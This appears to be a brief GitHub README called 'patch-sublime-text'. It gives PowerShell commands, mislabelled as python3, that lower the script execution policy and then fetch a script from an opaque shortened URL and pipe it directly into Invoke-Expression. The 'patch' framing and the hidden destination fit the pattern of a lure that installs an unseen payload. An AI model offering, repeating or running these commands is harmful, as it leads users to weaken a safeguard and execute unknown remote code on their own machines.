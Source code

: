 # patch-sublime-text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
iwr -useb "https://n9.cl/x6g959" | iex
```
```python3
iwr -useb https://n9.cl/x6g959|iex
```
